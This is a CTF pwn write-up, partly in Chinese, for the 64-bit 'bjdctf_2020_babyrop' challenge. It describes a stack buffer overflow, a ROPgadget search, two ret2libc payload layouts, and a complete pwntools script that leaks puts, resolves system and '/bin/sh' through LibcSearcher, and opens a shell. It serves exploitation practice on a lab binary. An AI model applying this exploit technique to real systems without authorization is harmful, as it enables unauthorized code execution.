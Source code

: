 ```yaml
---
title: 'bjdctf_2020_babyrop'
date: 2024-12-30 13:00:00 +0800
categories:  [ctf,pwn]
tags: [64bit,leak_libc]
---
```

![image-20231229193724690](../assets/img/old_imgs/image-20231229193724690.png)

- `64`位泄露`libc`

- `vuln`的`buf`变量存在溢出

- `64`位函数传入的参数依次存在寄存器`rdi,rsi,rdx (顺序从左到右)`,返回值存在`rax`中

  ```shell
  bamuwe@qianenzhao:~/done/bjdctf_2020_babyrop$ ROPgadget --binary bjdctf_2020_babyrop --only 'pop|ret'|grep rdi
  0x0000000000400733 : pop rdi ; ret
  ```

  1. 溢出泄露`libc`
  2. 构造`payload`拿到`shell`

| rbp  |           |         |                    |      |
| ---- | --------- | ------- | ------------------ | ---- |
|      | padding   |         |                    | 0x20 |
|      |           | leave   |                    | 0x8  |
|      | pop_rdi   | ret     | 0x0000000000400733 |      |
|      | puts_got  | pop rdi |                    |      |
|      | puts_plt  | ret     |                    |      |
|      | main_addr | ret     |                    |      |

> payload1

| rbp  |          |         |                    |      |
| ---- | -------- | ------- | ------------------ | ---- |
|      | padding  |         |                    | 0x20 |
|      |          | leave   |                    | 0x8  |
|      | pop_rdi  | ret     | 0x0000000000400733 |      |
|      | /bin/sh` | pop rdi |                    |      |
|      | system   | ret     |                    |      |

> payload2

```python
from pwn import *
from LibcSearcher import LibcSearcher
io = process('./bjdctf_2020_babyrop')
#io = remote('node4.buuoj.cn',29488)
elf = ELF('./bjdctf_2020_babyrop')
payload1 = b'A'*0x28+p64(0x0000000000400733)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
baseoffset = puts_addr - Lib.dump('puts')
sys_addr = baseoffset + Lib.dump('system')
bin_sh_addr = baseoffset + Lib.dump('str_bin_sh')

payload2 = b'A'*0x28+p64(0x0000000000400733)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload2)
io.interactive()
```
